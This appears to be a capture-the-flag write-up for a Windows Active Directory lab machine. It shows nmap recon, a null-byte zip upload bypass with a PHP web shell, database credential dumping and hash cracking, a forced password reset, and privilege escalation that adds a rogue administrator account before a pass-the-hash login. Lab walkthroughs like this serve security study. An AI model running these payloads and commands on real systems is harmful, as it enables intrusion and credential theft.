





A course portal that trusts the MIME header.
Nmap paints a certificate.htb AD footprint: DNS, HTTP (Apache 2.4.58 on port 80), Kerberos on 88, LDAP on 389, SMB on 445. DC01 is the domain controller.
$ nmap -A -T5 10.129.237.217 --min-rate 2000
53/tcp open domain Simple DNS Plus
80/tcp open http Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
88/tcp open kerberos-sec Microsoft Windows Kerberos
389/tcp open ldap Microsoft Windows AD LDAP (Domain: certificate.htb)
445/tcp open microsoft-dsThe upload validator allows .pdf, .pptx, .xlsx, and .zip. Trying a raw .php with a classic payload fails:

Null byte + .zip rename into PHP execution.
The trick: wrap the payload in an allowed .zip, rename the inner file to dump.php\x00.pdf. PHP on Windows honors the null byte before the extension, Apache still routes .php to the handler.
import os, zipfile
zip_path = 'dump.zip'
new_zip_path = 'dump22.zip'
old_filename = 'dump.php'
new_filename = 'dump.php\x00.pdf'
with zipfile.ZipFile(zip_path, 'r') as zip_read:
with zipfile.ZipFile(new_zip_path, 'w',
compression=zipfile.ZIP_DEFLATED) as zip_write:
for item in zip_read.infolist():
data = zip_read.read(item.filename)
if item.filename == old_filename:
item.filename = new_filename
zip_write.writestr(item, data)
<?php echo(shell_exec($_GET['cmd'])); ?>
GET /static/uploads/ebd0473a69a5f33d8a4caa3b1e4f234c/shell.php?cmd=whoami
certificate\xamppuser
db.php reveals bcrypt dump. Crack to sara.b.
Hunting around C:\xampp\htdocs\certificate.htb turns up db.php — a PDO connection string with the certificate_webapp_user credentials for Certificate_WEBAPP_DB.
A one-liner dump.php runs SELECT * FROM users and prints every row to the browser. The table yields handles, emails, and a $2y$04$... bcrypt hash per user.
$ hashcat -m 3200 -a 0 bcrypt_hashes.txt rockyou.txt
...
$2y$04$bZs2FUjVRiFswYB4CUR8ve02ymuiy0QD23X0KFuT6IM2sBbgQvEFG : [REDACTED]
$ nxc ldap certificate.htb -u sara.b -p '[REDACTED]'
LDAP 10.129.237.215 389 DC01 [+] certificate.htb\sara.b:[REDACTED]
$ nxc winrm certificate.htb -u sara.b -p '[REDACTED]'
WINRM 10.129.237.215 5985 DC01 [+] certificate.htb\sara.b:[REDACTED] (Pwn3d!)

BloodHound: ACCOUNT OPERATORS, GenericAll, Ryan.K.
dir C:\Users\ lists local profiles: akeder.kh, Lion.SK, Ryan.K, Sara.B, xamppuser. Ryan.K is the next target.
$ bloodhound-python -u sara.b -p '[REDACTED]' \
-dc dc01.certificate.htb -d certificate.htb -c all -ns 10.10.x.x
INFO: Found 10 users, 59 groups, 1 computer
$ bloodyAD -d certificate.htb -u sara.b -p '[REDACTED]' \
--host 10.129.237.215 set password RYAN.K '[REDACTED]'
[+] Password changed successfully!PS C:\Users\Ryan.K> whoami /priv
PRIVILEGES INFORMATION
Privilege Name Description State
SeMachineAccountPrivilege Add workstations to domain Enabled
SeManageVolumePrivilege Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set EnabledSeManageVolumeAbuse and diaghub LOLBAS, to Administrator NT hash.
The privilege lets us change ACLs on any file. xct/SeManageVolumeAbuse.exe C:\Windows\System32 opens the door, but root.txt itself is locked down by the box creator (some custom magic I couldn't unravel).
Plan B: LOLBAS diaghub.exe drops a payload into System32\spool\drivers\color\ and executes as SYSTEM.
PS> .\SeManageVolumeAbuse.exe C:\Windows\System32
Success! Permissions changed.
PS> copy .\nc.bat C:\windows\system32\spool\drivers\color\nc.bat
PS> type C:\windows\system32\spool\drivers\color\nc.bat
net user moriz [REDACTED] /add
net localgroup Administrators moriz /add
PS> diaghub.exe C:\ProgramData xct.dll
[+] CoCreateInstance
[+] CreateSession
[+] Success
PS> net user
Administrator akeder.kh Alex.D
moriz Nya.S Ryan.K

$ secretsdump.py 'certificate.htb/moriz:[REDACTED]@certificate.htb'
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[NT HASH]:::
krbtgt:502:aad3b435...
...
$ evil-winrm -i 10.129.237.215 -u Administrator -H [NT HASH]
Evil-WinRM PS C:\Users\Administrator\Desktop> type root.txt